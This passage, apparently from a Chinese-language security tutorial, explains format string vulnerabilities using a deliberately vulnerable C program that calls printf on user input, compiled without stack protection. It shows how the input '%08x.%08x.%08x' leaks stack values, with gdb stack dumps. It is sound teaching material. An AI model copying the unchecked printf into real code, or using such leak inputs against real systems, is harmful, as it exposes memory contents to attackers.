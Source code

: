 ```c
#include <stdio.h>
int main(){
    char s[100];
    int a = 0, b = 0x22222222, c = -1;
    scanf("%s", s);
    printf("%08x.%08x.%08x.%s\n", a, b, c, s);
    printf(s);
    return 0;
}
```

然后，我们简单编译一下

```
➜  leakmemory git:(master) ✗ make
gcc -fno-stack-protector -no-pie -o leakmemory leakmemory.c
leakmemory.c: In function ‘main’:
leakmemory.c:7:10: warning: format not a string literal and no format arguments [-Wformat-security]
   printf(s);
```

根据 C 语言的调用规则，格式化字符串函数会根据格式化字符串直接使用栈上自顶向上的变量作为其参数(64 位会根据其传参的规则进行获取)。这里我们主要介绍 32 位。

---

#### 获取栈数值变量

首先，我们可以利用格式化字符串来获取栈上变量的数值。我们可以试一下，运行结果如下

```gdb
➜  leakmemory git:(master) ✗ ./leakmemory
%08x.%08x.%08x
00000001.22222222.ffffffff.%08x.%08x.%08x
ffcfc400.000000c2.f765a6bb
```

为了能更细致的观察, 我们使用 gdb 进行调试. 在 printf 处下断点, 输入`%08x.%08x.%08x`, 调试信息如下:

```gdb
[-------------------------------------code-------------------------------------]
   0xf7e4c67b <fprintf+27>:     ret
   0xf7e4c67c:  xchg   ax,ax
   0xf7e4c67e:  xchg   ax,ax
=> 0xf7e4c680 <printf>: call   0xf7f22c59
   0xf7e4c685 <printf+5>:       add    eax,0x16997b
   0xf7e4c68a <printf+10>:      sub    esp,0xc
   0xf7e4c68d <printf+13>:      mov    eax,DWORD PTR [eax-0x68]
   0xf7e4c693 <printf+19>:      lea    edx,[esp+0x14]
No argument
[------------------------------------stack-------------------------------------]
0000| 0xffffd24c --> 0x80484bf (<main+84>:      add    esp,0x20)
0004| 0xffffd250 --> 0x8048563 ("%08x.%08x.%08x.%s\n")
0008| 0xffffd254 --> 0x0
0012| 0xffffd258 ("\"\"\"\"\377\377\377\377p\322\377\377p\322\377\377p*\376\367\b\334\377\367%08x.%08x.%08x")
0016| 0xffffd25c --> 0xffffffff
0020| 0xffffd260 --> 0xffffd270 ("%08x.%08x.%08x")
0024| 0xffffd264 --> 0xffffd270 ("%08x.%08x.%08x")
0028| 0xffffd268 --> 0xf7fe2a70 (add    edi,0x1a590)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
```
